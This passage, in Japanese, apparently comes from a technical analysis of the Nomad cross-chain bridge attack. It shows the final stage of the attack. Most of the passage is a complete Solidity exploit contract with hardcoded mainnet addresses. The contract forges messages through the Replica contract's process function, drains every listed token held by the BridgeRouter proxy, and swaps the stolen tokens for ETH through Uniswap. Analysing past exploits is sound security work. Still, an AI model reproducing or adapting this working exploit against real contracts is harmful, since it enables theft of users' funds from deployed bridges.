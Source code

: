 ### 完成形と攻撃結果

あとは各トークンに対して送金を行うクロスチェーンメッセージを構成し、`Replica`コントラクトの`process`関数を介して実行すれば、指定した全てのトークンを奪取できます。

例えば以下のようになります。

```solidity
contract NomadBridgeExploit {
    using TypedMemView for bytes;
    using TypedMemView for bytes29;
    using BridgeMessage for bytes29;
    using Message for bytes29;

    address constant replicaAddress = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
    address constant proxyAddress = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3; // BridgeRouter
    address constant prevBridgeRouterAddress = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;

    IUniswapV2Router02 constant uniswapRouter = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);
    address constant wethAddress = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function exploit(address[] calldata tokens) public {
        IReplica replica = IReplica(replicaAddress);
        IBridgeRouter bridgeRouter = IBridgeRouter(proxyAddress);
        ITokenRegistry tokenRegistry = bridgeRouter.tokenRegistry();

        for (uint256 i = 0; i < tokens.length; i++) {
            address tokenAddress = tokens[i];
            ERC20 token = ERC20(tokenAddress);

            (uint32 domain, bytes32 id) = tokenRegistry.getTokenId(tokenAddress);
            // Note: domain = destinationDomain

            bytes29 action = BridgeMessage.formatTransfer(
                bytes32(uint256(uint160(address(this)))),
                token.balanceOf(proxyAddress),
                BridgeMessage.getDetailsHash(token.name(), token.symbol(), token.decimals())
            );
            bytes29 tokenId = BridgeMessage.formatTokenId(domain, id);
            bytes memory rawBridgeMessage = BridgeMessage.formatMessage(tokenId, action);

            bytes memory rawMessage = Message.formatMessage(
                1650811245, // originDomain
                bytes32(uint256(uint160(prevBridgeRouterAddress))), // sender
                0, // nonce
                6648936, // destinationDomain
                bytes32(uint256(uint160(proxyAddress))), // recipient
                rawBridgeMessage
            );

            replica.process(rawMessage);

            token.approve(address(uniswapRouter), type(uint256).max);
            address[] memory path = new address[](2);
            path[0] = tokenAddress;
            path[1] = wethAddress;
            uniswapRouter.swapExactTokensForETH(token.balanceOf(address(this)), 0, path, msg.sender, type(uint256).max);
        }
    }
}
```
